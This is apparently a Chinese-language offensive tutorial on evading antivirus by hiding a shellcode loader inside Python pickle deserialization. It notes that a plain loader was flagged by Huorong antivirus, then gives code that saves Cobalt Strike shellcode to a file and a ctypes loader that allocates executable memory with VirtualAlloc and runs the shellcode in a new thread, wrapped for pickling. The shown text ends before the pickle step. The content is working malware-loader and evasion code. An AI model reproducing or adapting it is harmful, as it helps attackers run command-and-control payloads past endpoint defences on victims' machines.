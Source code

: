 

## 运行测试

使用火绒扫描Shellcode加载器, 结果可想而知报毒了, 所以更不用说打包成可执行文件了, 因此需要对加载器代码进行反序列化处理

![image-20221119213252111](Python反序列化免杀/image-20221119213252111.png)

​	

# 简单的反序列化免杀	

## 项目代码

### GenerateShellcode.py

```python
#将下述的代码替换成CobaltStrike的Shellcode
shellcode = b''
with open('shellcode.txt','wb') as f:
    f.write(shellcode) 
```



### PickleDump.py

```python
#pickle dump
import pickle

shellcode="""
import ctypes

f= open('shellcode.txt', 'rb')
shellcode= f.read()
shellcode= bytearray(shellcode)
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
"""

```